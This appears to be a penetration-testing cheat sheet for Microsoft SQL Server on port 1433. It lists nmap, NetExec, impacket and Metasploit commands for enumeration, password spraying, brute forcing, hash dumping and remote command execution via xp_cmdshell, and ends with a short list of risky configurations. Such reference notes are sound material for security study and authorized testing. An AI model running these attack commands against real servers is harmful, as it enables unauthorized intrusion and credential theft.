 ```yaml
---
title: "1433-MSSQL"
draft: false
tags:
  - 
---
```

The `Microsoft SQL` (**MSSQL**) is a proprietary `Relational Database Management System` (**RDBMS**) developed by Microsoft. It is popular among database administrators and developers when building applications that run on Microsoft's .NET framework due to its strong native support for .NET.

`Default Port: 1433`

# Banner grabbing
```bash
nc -nv $IP 1433
```

# MSSQL Databases
MSSQL has default system databases. Here are the default databases and a brief description of each:

| Default System Database | Description                                                                                  |
| ----------------------- | -------------------------------------------------------------------------------------------- |
| `master`                | Holds important system info for the SQL Server instance.                                     |
| `model`                 | A template for new databases. Changes here affect new databases created after modifications. |
| `msdb`                  | Used by SQL Server Agent to manage jobs and alerts.                                          |
| `tempdb`                | Stores temporary data and objects during database operations.                                |
| `resource`              | A read-only database with essential system objects for SQL Server.                           |

# Nmap
[Nmap](https://nmap.org/) is a network scanner created by [Gordon Lyon](https://en.wikipedia.org/wiki/Gordon_Lyon). Nmap is used to discover hosts and services on computer network by sending packets and analyzing the responses.

Nmap provides a number of features for probing computer networks, including host discovery and service and operating system detection.

```bash
# Default NSE
sudo nmap -sCV -p1433 $IP

# Enum version/info mssql
sudo nmap -p1433 --script=ms-sql-info $IP

# Enum target/domain/netbios name
sudo nmap -p1433 --script=ms-sql-ntlm-info --script-args mssql.instance-port=1433 $IP

# Enum mssql for empty password
sudo nmap -p1433 --script=ms-sql-empty-password $IP

# Bruteforcing user/password
sudo nmap -p1433 --script=ms-sql-brute --script-args userdb=/wordlists/user.txt,passdb=/wordlists/password.txt $IP

# Query the login users with AUTHENTICATION
sudo nmap -p1433 --script=ms-sql-query --script-args mssql.username=administrator,mssql.password=password123,ms-sql-query.query="SELECT * FROM master..syslogins" -oN output.txt $IP

# Query the sysusers with AUTHENTICATION
sudo nmap -p1433 --script=ms-sql-query --script-args mssql.username=administrator,mssql.password=password123,ms-sql-query.query="SELECT * FROM master..sysusers" -oN output.txt $IP

# Dump hashes with AUTHENTICATION
sudo nmap -p1433 --script=ms-sql-dump-hashes --script-args mssql.username=administrator,mssql.password=password123 $IP

# Execute command with AUTHENTICATION
sudo nmap -p1433 --script=ms-sql-xp-cmdshell --script-args mssql.username=administrator,mssql.password=password123,ms-sql-xp-cmdshell.cmd="ipconfig" $IP

# MSSQL allscripts
sudo nmap -sV -p1433 --script=ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args=mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER $IP
```

# NetExec
[NetExec](https://github.com/Pennyw0rth/NetExec) (AKA **nxc**) is a network service exploitation tool that helps automate assessing the security of large networks.

```bash
# Get Windows version
nxc mssql $IP

# Password spraying
nxc mssql $IP -u /wordlists.txt/users.txt -p /wordlists/passwords.txt --no-bruteforce

# Enumerate and exploit MSSQL privileges
nxc mssql $IP -u 'administrator' -p 'password123' -M mssql_priv
```

# MSSQLclient
```bash
impacket-mssqlclient administrator@$IP -windows-auth                # Login (prompt password)
impacket-mssqlclient administrator:password123@$IP -windows-auth    # Login (specify password on CLI)
impacket-mssqlclient domain.local/administrator:password123@$IP -dc-ip $IP -windows-auth    # Login (domain)

# Once connected, 
# this command can be use to enumerate manually.
    [database]> enable_xp_cmdshell      # Enable for execute command
    [database]> xp_cmdshell <command>   # Execute command
    [database]> xp_dirtree <path>       # Enable path traversal
```

# Metasploit Framework
[Metasploit Framework](https://github.com/rapid7/metasploit-framework) is an open source platform that supports vulnerability research, exploit development, and the creation of custom security tools.

```bash
auxiliary/scanner/mssql/mssql_login                 # Queries the instance for a specific user/pass
auxiliary/admin/mssql/mssql_enum                    # Enum MSSQL
auxiliary/admin/mssql/mssql_enum_sql_logins         # Enum MSSQL login
auxiliary/admin/mssql/mssql_exec                    # Execute Windows command via the `xp_cmdshell`(default) or  the `sp_oacreate` procedure
auxiliary/admin/mssql/mssql_enum_domain_accounts    # Brute-force RIDs
```

# Dangerous settings
Some settings can be dangerous for the company and its infrastructure. This is not an extensive list because there are countless ways MSSQL databases can be configured.

- `No encryption for MSSQL clients`: Clients connecting without encryption can expose sensitive data.
- `Self-signed certificates`: These can be spoofed, making connections insecure.
- [Named pipes](https://learn.microsoft.com/en-us/sql/tools/configuration-manager/named-pipes-properties?view=sql-server-ver15): A potentially insecure way for clients to connect to the server.
- `Weak/default SA credentials`: If the sa (system admin) account isn't secured or disabled, it can be easily exploited.